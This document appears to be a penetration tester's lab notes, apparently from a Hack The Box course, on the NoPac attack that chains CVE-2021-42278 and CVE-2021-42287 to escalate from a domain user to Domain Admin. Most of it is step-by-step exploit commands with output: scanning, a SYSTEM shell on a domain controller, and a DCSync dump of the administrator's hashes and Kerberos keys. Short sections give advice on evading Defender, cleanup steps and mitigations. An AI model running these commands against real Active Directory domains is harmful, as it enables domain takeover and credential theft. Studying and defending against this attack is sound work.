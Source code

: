 This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)

Authorized use only on systems you own or have explicit written permission to test.

## TL;DR

- “NoPac” = chaining two 2021 bugs to jump from any **domain user** to **Domain Admin** in one shot.
    
- CVE-2021-42278: lets you spoof a **computer account’s** `sAMAccountName` (SAM bypass).
    
- CVE-2021-42287: Kerberos **PAC** confusion issues TGS for the **closest matching name** (can become DC).
    
- Attack flow (default, unpatched AD): add machine → rename its `sAMAccountName` to match a DC → request tickets → get DC privileges → SYSTEM on DC or DCSync.
    

---

## What the two CVEs do

- **42278 (SAM bypass)**: Standard users can add machine accounts; spoof the machine’s `sAMAccountName` to match a DC.
    
- **42287 (Kerberos PAC)**: When you request a TGS, KDC may issue it to the nearest match (the spoofed DC name), granting DC-level rights.
    

Key dependency: `ms-DS-MachineAccountQuota` > 0 (default **10**) lets authenticated users add machine accounts.

---

## Preconditions & Notes

- Any **domain user** creds.
    
- Target DC unpatched for 42278/42287.
    
- `ms-DS-MachineAccountQuota` ≥ 1 (if set to **0**, this path is blocked).
    
- Network path to the DC (`-dc-ip`, `-dc-host` consistent).
    
- Tooling in place: **Impacket** + **noPac** repo.
    

---

## Setup (as provided)

```bash
# Install Impacket (example)
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install

# Clone NoPac
git clone https://github.com/Ridter/noPac.git
```

---

## Check Vulnerability - Scanning for NoPac

Scanner uses a standard user to request tickets and reports quota:
```shell-session
z3tssu@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663
```

```bash
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

---

## Exploitation Options 

### A) Get SYSTEM Shell on DC (semi-interactive via smbexec)

```bash
z3tssu@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                               
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Adding Computer Account "WIN-LWJFQMAXRVN$"
[*] MachineAccount "WIN-LWJFQMAXRVN$" password = &A#x8X^5iLva
[*] Successfully added machine account WIN-LWJFQMAXRVN$ with password &A#x8X^5iLva.
[*] WIN-LWJFQMAXRVN$ object = CN=WIN-LWJFQMAXRVN,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] WIN-LWJFQMAXRVN$ sAMAccountName == ACADEMY-EA-DC01
[*] Saving ticket in ACADEMY-EA-DC01.ccache
[*] Resting the machine account to WIN-LWJFQMAXRVN$
[*] Restored WIN-LWJFQMAXRVN$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
[*] Attempting to del a computer with the name: WIN-LWJFQMAXRVN$
[-] Delete computer WIN-LWJFQMAXRVN$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 \
  -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 \
  -shell --impersonate administrator -use-ldap
```

What happens:

- Adds a machine account, spoofs `sAMAccountName` to DC, obtains TGT/TGS, impersonates `administrator`.
    
- Drops a semi-interactive **smbexec.py** shell as **NT AUTHORITY\SYSTEM** on the DC.
    
- Shell is “exact path” only (no `cd` convenience).
    

#### Confirming the Location of Saved Tickets

- NoPac saves ccache tickets in the current dir:
    

```bash
ls
# administrator_DC01.INLANEFREIGHT.local.ccache, ...
```

### Using noPac to DCSync the Built-in Administrator Account

```bash
z3tssu@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                                                    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```

```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 \
  -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 \
  --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

- Uses secretsdump via DRSUAPI under the hood.
    
- Outputs NT hash and Kerberos keys for the specified account.
    
- ccache file is created on disk; track and clean up.
    

---

## OPSEC / EDR Considerations

- **smbexec.py** behavior is noisy:
    
    - Creates services like `BTOBTO` / `BTOBO`.
        
    - Writes and runs temporary `execute.bat` per command.
        
    - Windows Defender commonly flags this pattern (e.g., `VirTool:Win32/MSPSEexecCommand`).
        
- If stealth matters, avoid smbexec-style shells; choose quieter post-ex paths permitted by your ROE.
    

---

## Cleanup & Caution

- The tool attempts to restore the spoofed name and delete the temporary machine account; deletion may fail depending on rights.
    
- Remove any leftover **machine accounts** and local **ccache** tickets.
    
- Keep `-dc-ip` and `-dc-host` aligned; mismatch breaks the flow.
    

---

## Mitigations (Blue Team)

- Patch for CVE-2021-42278 / CVE-2021-42287.
    
- Set `ms-DS-MachineAccountQuota = 0` unless machine self-join is required.
    
- Alert on:
    
    - Computer account `sAMAccountName` changes near DC names.
        
    - Sudden machine-account adds/removes by ordinary users.
        
    - Abnormal Kerberos service tickets for DC SPNs.
        
    - New/odd services on DC (smbexec patterns), temporary batch files.
        

---

## Quick Checklist

- [ ]  Confirm `MachineAccountQuota` and patch status.
    
- [ ]  Run `scanner.py` with standard user → vulnerable?
    
- [ ]  Execute `noPac.py` for shell **or** `-dump` for DCSync (as permitted).
    
- [ ]  Capture artifacts (ccache), document hashes/keys per ROE.
    
- [ ]  Clean up: machine account, tickets, temp files.
    
- [ ]  Report: findings, impact, and mitigation steps.
